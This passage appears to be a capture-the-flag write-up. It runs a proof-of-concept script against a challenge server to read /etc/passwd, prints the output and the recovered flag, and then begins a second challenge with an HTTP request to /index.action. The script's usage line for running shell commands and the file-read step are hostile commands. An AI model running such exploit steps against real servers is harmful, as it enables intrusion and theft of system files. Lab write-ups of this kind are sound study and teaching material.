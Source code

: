 ```bash
# PoC.sh targets.txt /bin/sh whoami

```

We can use the script to exfiltrate `/etc/passwd`:

```console
$ echo http://13.114.183.54:8081/ > targets.txt
$ bash apache.sh targets.txt /etc/passwd
http://13.114.183.54:8081/
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
flag:x:1000:1000:flag{N_oht_jnf_perngrq}:/home/flag:/bin/sh
```

**Flag:** `flag{N_oht_jnf_perngrq}`

### Known Vulnerability 2

We were given the target of `http://13.114.183.54:8080`.

The following request was sent to `http://13.114.183.54:8080`:

```
GET /index.action HTTP/1.1
Host: 13.114.183.54:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1


```
